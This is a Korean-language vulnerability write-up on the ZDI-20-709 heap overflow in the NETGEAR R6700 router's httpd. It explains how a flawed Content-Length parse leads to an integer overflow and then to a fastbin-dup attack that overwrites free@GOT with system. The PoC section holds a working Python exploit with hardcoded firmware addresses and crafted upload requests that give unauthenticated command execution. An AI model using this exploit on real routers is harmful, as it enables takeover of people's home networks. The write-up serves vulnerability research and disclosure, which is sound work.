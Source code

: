 # Heap Overflow in the NETGEAR NightHawk R6700 Router
* Date : Feb 2020
* Advisory : [ZDI](https://www.zerodayinitiative.com/advisories/ZDI-20-709/)
* CVSS : [8.8](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H))
* Affected Versions : NETGEAR R6700 Router /w under V1.0.4.84_10.0.58 firmware version

## Description
> 익스플로잇을 위한 상세한 테크닉 설명은 생략함  

본 취약점은 `/usr/bin/httpd` 바이너리에서 HTTP 리퀘스트를 처리하면서 발생한다. 해당 쿼리는 인증받지 않은 사용자가 전송할 수 있으며 공격에 성공할 경우 완변한 쉘 명령어 실행권한을 획득할 수 있다. 요약하면 취약점은 2개이다.

* 사용자가 새로운 설정파일을 업로드할 수 있는 것 (Authentication Failure)
* 파일 업로드 기능에서 Integer Overflow로 인한 Heap Overflow 

첫 번째 취약점의 경우 본 익스플로잇을 작성하는데 큰 영향을 주진 않는다. 사용자가 설정 파일을 새로 업로드할 수 있어도 이를 적용하기 위해선 기존 credential 정보에 대한 인증 작업이 이뤄지기 때문이다. 하지만, 두 번재 취약점은 치명적인데, 이는 사용자(공격자)가 업로드한 파일을 Heap 영역에 할당된 버퍼에 원하는 크기만큼 복사할 수 있다. 이를 간단하게 pseudo code로 표현하면 다음과 같다.

```c
buffer = malloc(attacker_control_size);
memcpy(buffer, file_content, file_content_size);
```

할당된 버퍼 크기를 조절하기 위해서 **Content-Length** 헤더를 사용할 수 있다. 하지만, 본 공유기에서 HTTP 리퀘스트를 Nginx Proxy를 거치도록 설계되어 있어, 단순히 해당 헤더에 원하는 값을 적는다고 원하는 크기로 할당할 수 없다. 하지만, CGI 바이너리에서 **Content-Length** 헤더 값을 처리하는데 *atoi* 함수를 이용하는데 해당 함수의 로직에 문제가 있다. 요약하면, *atoi* 함수 내에 *strstr* 함수를 통해 **Content-Length** 헤더의 마지막 값을 가져와야하는데 실수로 헤더가 아닌 전체 리퀘스트 패킷 전체를 입력 값으로 받게되어 공격자가 원하는 임의의 값으로 설정할 수 있게 된다. 예를들어, `POST /cgi-bin/genie.cgi?backup.cgiContent-Length: 111 HTTP/1.1` 로 리퀘스트를 보낸 경우 *strstr* 함수에서는 `111 HTTP/1.1` 값을 입력으로 받게 되는 것이다. 이후, 업로드한 파일을 저장하기 위한 공간을 할당하기 위해 *malloc* 함수의 인자로 이전에 계산한 값에 0x258을 더한 값을 설정한다. 만약, 공격자가 조작한 값이 **0xffffffe9**와 같은 음수 값이라면 0x258이 더해지면 **0x241** 값으로 설정(Integer Overflow)된다. 이를 통해, 위 C코드에서 **attacker_control_size** 값을 설정할 수 있게 된다. 

다음으로, 할당된 Heap 버퍼에 공격자가 업로드한 파일 내용을 복사하는 부분은 다음과 같다.  
![heap overflow](img/heapoverflow.png)

이전에 계산된 크기대로 *memset*을 통해 초기화하고 *memcpy* 함수를 통해 공격자가 업로드한 파일 내용을 그대로 복사(Heap Overflow)한다. 

## Exploit Summary
여태까지 식별된 취약점과 익스플로잇을 위한 고려사항은 다음과 같다.  
* Heap Overflow 취약점을 통해 Heap 영역에 임의의 데이터를 작성할 수 있음
* 본 공유기 모델의 특성상 ASLR이 허술하게 구현되어 있어 Heap 메모리가 **고정된 주소**에 할당됨
* 본 공유기 파일시스템에선 glibc의 소형 버전인 uClibc를 사용하며, malloc/free 구현 형태가 다소 단순하고 (기존 glibc heap exploitation 기법과) 익스플로잇 형태가 다름
* *memcpy* 함수를 통해 Heap Overflow 발생 이후 에러 페이지를 반환하는 함수(`sub_21a58`)가 호출되며, 해당 함수에서는 파일을 열기 위해 `fopen` 함수가 호출됨
* *fopen* 함수에선 *malloc* 함수가 두번 호출되며 각각 0x60, 0x1000 크기로 할당되고 해제(free)됨

본 취약점을 익스플로잇하기 위해선 **[fastbin dup](https://github.com/shellphish/how2heap#educational-heap-exploitation)** 기법을 활용할 수 있는데, 한 가지 문제점이 있다. 위에서 언급한 flow에서 마지막에 *malloc(0x1000)* 이 호출되는데 이는 *__malloc_consolidate* 함수를 호출해서 (비교적 작은 크기의 할당 해제된 청크들을 담고 있는) fastbin 구조를 망가뜨린다. 이를 막기 위해서 본 공유기에서 사용하는 uClibc의 metadata 설계 취약점을 이용해야 한다. 해당 기법에 대한 설명은 생략한다. 정리하면, 다음과 같은 흐름으로 쉘 명령어 실행 권한을 획득할 수 있다.  
* **Content-Length** 헤더 값을 변조해서 원하는 크기만큼 Heap 버퍼 할당
* fastbin dup 공격 기법을 이용하기 위한 사전 작업을 수행
* fastbin dup 공격을 통해 공격자가 지정한 주소 **free_got** 를 *malloc* 함수 반환 값으로 획득하고 해당 영역의 값을 **system_plt** 주소로 설정 (Write-What-Where)
* 이후 에러 페이지를 띄우는 함수 `sub_21a58`에서 *fopen* 함수를 통해 *free* 함수가 호출되고 이는 overwrite된 값으로 인해 *system* 함수를 실행 (Get a shell)

## PoC
```python
def exploit():
    path = '/cgi-bin/genie.cgi?backup.cgiContent-Length: 4156559'
    headers = ['Host: %s:%s' % (rhost, rport), 'a'*0x200 + ': d4rkn3ss']
    files = {'name': 'mtenRestoreCfg', 'filecontent': 'a'}
    print '[+] malloc 0x28 chunk'
    # 00:0000│ 0x103f000 ◂— 0x0
    # 01:0004│ 0x103f004 ◂— 0x29
    # 02:0008│ r0 0x103f008 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x20)
    post_request(path, headers, f)

    print '[+] malloc 0x18 chunk'
    # 00:0000│ 0x103f000 ◂— 0x0
    # 01:0004│ 0x103f004 ◂— 0x29 /* ')' */
    # 02:0008│ 0x103f008
    # 03:000c│ 0x103f00c
    # ... ↓
    # 0a:0028│ 0x103f028
    # 0b:002c│ 0x103f02c ◂— 0x19
    # 0c:0030│ r0 0x103f030 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x10)
    post_request(path, headers, f)

    print '[+] malloc 0x28 chunk and overwrite 0x18 chunk header to make overlap chunk'
    # 00:0000│ 0x103eb50 ◂— 0x0
    # 01:0004│ 0x103eb54 ◂— 0x21 <-- recheck
    # ... ↓
    # 12d:04b4│ 0x103f004 ◂— 0x29 /* ')' */
    # 12e:04b8│ 0x103f008 ◂— 0x61616161 ('aaaa') <-- 0x28 chunk
    # ... ↓
    # 136:04d8│ 0x103f028 ◂— 0x4d8
    # 137:04dc│ 0x103f02c ◂— 0x18
    # 138:04e0│ 0x103f030 ◂— 0x0
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x20)
    f['filecontent'] = 'a' * 0x20 + p32(0x4d8) + p32(0x18)
    post_request(path, headers, f)

    print '[+] malloc 0x4b8 chunk and overwrite size of 0x28 chunk -> 0x9. Then, when __malloc_consolidate() function is called, __malloc_state->max_fast will be overwritten to a large value.'
    # 00:0000│ 0x103eb50 ◂— 0x0
    # 01:0004│ 0x103eb54 ◂— 0x4f1
    # ... ↓
    # 12d:04b4│ 0x103f004 ◂— 0x9
    # 12e:04b8│ 0x103f008
    # ... ↓
    # 136:04d8│ 0x103f028 ◂— 0x4d8
    # 137:04dc│ 0x103f02c ◂— 0x18
    # 138:04e0│ 0x103f030 ◂— 0x0
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x4b0).ljust(0x10) + 'a' * 0x4ac + p32(0x9)
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x18 chunk'
    # 00:0000│ 0x10417a8 ◂— 0xdfc3a88e
    # 01:0004│ 0x10417ac ◂— 0x19
    # 02:0008│ r0 0x10417b0 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x10)
    post_request(path, headers, f)

    print '[+] malloc 0x38 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ r0 0x103e770 <-- return here
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x30).ljust(0x10) + 'a'
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x48 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ r0 0x103e770
    # ... ↓
    # 0e:0038│ 0x103e7a0
    # 0f:003c│ 0x103e7a4 ◂— 0x49 /* 'I' */
    # 10:0040│ r0 0x103e7a8 <-- return here
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x40).ljust(0x10) + 'a'
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x38 chunk and overwrite fd pointer of 0x48 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4 <-- 0x38 chunk
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ 0x103e770 ◂— 0x0
    # 03:000c│ 0x103e774 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaI'
    # ... ↓
    # 0f:003c│ 0x103e7a4 ◂— 0x49 /* 'I' */ <-- 0x48 chunk
    # 10:0040│ 0x103e7a8 —▸ 0xf555c (semop@got.plt)
    free_got_addr = 0xF559C
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x30)
    f['filecontent'] = 'a' * 0x34 + p32(0x49) + p32(free_got_addr - 0x40)
    post_request(path, headers, f)

    print '[+] malloc 0x48 chunk'
    # 00:0000│ 0x103e7a0 ◂— 'aaaaI'
    # 01:0004│ 0x103e7a4 ◂— 0x49 /* 'I' */
    # 02:0008│ r0 0x103e7a8 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x40)
    post_request(path, headers, f)

    print '[+] malloc 0x48 chunk. And overwrite free_got_addr'
    # 00:0000│ 0xf555c (semop@got.plt) —▸ 0x403b6894 (semop) ◂— push {r3, r4, r7, lr}
    # 01:0004│ 0xf5560 (__aeabi_idiv@got.plt) —▸ 0xd998 ◂— str lr, [sp, #-4]!
    # 02:0008│ r0 0xf5564 (strstr@got.plt) —▸ 0x403c593c (strstr) ◂— push {r4, lr} <-- return here
    system_addr = 0xDBF8
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x40).ljust(0x10) + command.ljust(0x38, '') + p32(system_addr)
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] Done'
```

## Reference
- [ZDI Writeup](https://www.thezdi.com/blog/2020/6/24/zdi-20-709-heap-overflow-in-the-netgear-nighthawk-r6700-router)
